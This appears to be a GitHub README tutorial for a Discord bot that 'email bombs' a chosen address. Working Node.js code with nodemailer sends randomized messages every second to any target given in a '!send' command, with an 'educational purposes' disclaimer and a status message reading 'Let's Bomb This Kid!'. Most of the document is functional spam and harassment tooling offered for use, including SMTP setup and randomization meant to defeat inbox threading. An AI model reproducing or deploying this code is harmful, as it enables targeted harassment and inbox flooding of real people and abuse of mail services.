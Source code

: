 # Discord Bot E-mail Bomber
## Warning!
This bot is against Discord ToS and can get you banned for using it!  
I'm not responsible for anything that is done/happens with this source code.  
This code is strictly for educational purposes.  
By copying or using any of the code below you agree that you have read this.  
*Use this at your own risk*  
*Please do not edit the credits!*
*Bot  Created by Mental#1424 and Exploit#1337*  
[Email Bombing Video](https://www.youtube.com/watch?v=kquNr_DV_Rc)  
[Email Bombing V2 Video](https://youtu.be/8hPAveapX8w)

## CHANGELOG
Version 2 - Edited the spamming delay time, now you can choose the mail text, free libero.it account for spamming given. Check indexV2.js  
\
Version 1 - Bot Created  

## Description
With this bot, you can bomb any email address by running a simple command.  
The E-mail subject and body will be randomized in all new mails, so there is not any chance that a new mail is a reply to the first.    
All this complex system is activated by the simple command ```!send mail@mail.com```   

## Installing
First, we need to install [Nodemailer](https://nodemailer.com/about/) using npm  
```bash
npm install nodemailer --save
```
## Starting
Now we need to declare nodemailer at the bottom of our code and a boolean called "spamming" that will be used later in the code  
```javascript
const Discord = require('discord.js');
const client = new Discord.Client();
const prefix = "!"
const nodemailer = require("nodemailer");
var spamming;
```

## Client On Message
It's time to start coding, you can find the whole code in index.js or follow this guide to create your own.  
In this bit of code we declare args and some other stuff that is required on the message event.   
```javascript
client.on('message', async msg => {
    var args = msg.content.split(' ').slice(1);
    var command = msg.content.toLowerCase().slice(prefix.length).split(' ')[0];
    if(msg.author.bot) return;
 ```
## Send Command
We need to create our send command and make a function to randomize the emails to avoid duplicates.  
Duplicates are bad because it will stack in the inbox and not be effective.  

```javascript    
if (command === 'send') {
  if (spamming == true) return msg.reply("A mail bombing is already active! Please use '!stop' before a new attack"); //Check if the spamming variable is true

    if (!args[0]) 
        return  msg.reply("You need to insert a mail target!"); //If email is not specified, you get this reply message.

        
        function randomLetters(length) { //Here you create your random letters and number function.
          var text = "";
          var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
          for (var i = 0; i < length; i++)
            text += possible.charAt(Math.floor(Math.random() * possible.length));
             return text;
          }

       
          
        var mailto = args[0] //the variable mailto will be the arg[0] (the target e-mail)
        var mailtxt = (randomLetters(10)) //The mail's text will be 10 random letters and numbers choosed by the var "possible"
 ```
        
##  SMTP Server Connection
Now let's create the connection with the smtp server  
WARNING: If you are using gmail under user and pass you put the email and password. YOU MUST HAVE LESS SECURE APPS ON TO USE GMAIL!
```javascript
        let transporter = nodemailer.createTransport({
            host: "server", //smtp server
            port: 25,
            secure: false, // true for 465, false for other ports
            auth: {
              user: 'mail', 
              pass: 'password' 
            }
          });
```
##  E-Mail Config
And now we make the config for the emails
```javascript
let mailOptions = {
            from: '"Name" <e-mail>', // sender address
            to: mailto, // list of receivers, in this case, the "mailto" variable
            subject: (randomLetters(8)), // Subject is made by 8 random characters
            text: mailtxt, // text body, made from mailtxt variable
            html: "<b>" + mailtxt + "</b>" // html body
          };
```
##  Spamming Process
Here is where we make our spam functions and setInterval to make it keep spamming.  

```javascript
async function sendMail() {
          let info = await transporter.sendMail(mailOptions) //You load the mail options
          spamming = true; //You set the variable "spamming" to true, when it's on true, you can't launch other attacks
          }
          

            const spammingMessage = setInterval(() => { //You make a loop of the command, so it spams over and over
              var mailto = args[0]
                  mailOptions.subject = (randomLetters(8)) //You change the mail object, so it's everytime a new email and not a reply to the first one
                  var mailtxt = (randomLetters(10))
          
                      sendMail();
                      
                  }, 1000);

        msg.channel.send({embed: { //You create an embed with all the informations
            color: 3447003,
            author: {
              name: client.user.username,
              icon_url: client.user.avatarURL
            },
            title: "Bombing",
            description: "Bot Developed By Mental#1424",
            fields: [{
                name: "Let's Bomb This Kid!",
                value: "Bombing In Progress..."
              },
            {
                name: "Target Mail",
                value: mailto,
              },

            ],
            timestamp: new Date(),
            footer: {
              icon_url: client.user.avatarURL,
              text: "© Discord Mail Bomber"
            }
            
            
          }
          
        });
      }
```
##  Stopping The bombing
The stop command:
```javascript 
if(command === "stop") { //Stop the mail bombing
        if (spamming == false) return msg.reply("There isn't any active bombing!") //if you are not spamming, you can't stop the mail bombing.
        msg.channel.send("Stopped! Bot Shutdown")
        client.destroy() //The bot shut down
    }
```
##  Credits and info
All the information about the bot and the developers.
```javascript
    if(command === "info") { //Please do not edit this
      msg.channel.send({embed: {
          color: 3447003,
          author: {
            name: client.user.username,
            icon_url: client.user.avatarURL
          },
          title: "Info",
          description: 'Bot developed by Mental#1424'+'\n'+'Special Thanks To: ' + 'Exploit#1337',
          fields: [{
              name: "Find Me On Github!",
              value: "[Click This](https://github.com/MyNameIsMental)"
            },
           {
              name: "The bot is open source on github!",
              value: "[Click This](https://github.com/MyNameIsMental/discord-email-bombing)"
            },

          {
              name: "Command Sytax",
              value: "!send targetmail@targetmail.com text"
            },

            {
              name: "Stop",
              value: "Use !stop for stopping the mail bombing"
            }
          ],
          timestamp: new Date(),
          footer: {
            icon_url: client.user.avatarURL,
            text: "© Discord Mail Bomber"
          }
        }
      })
        };

    }) 
    ```
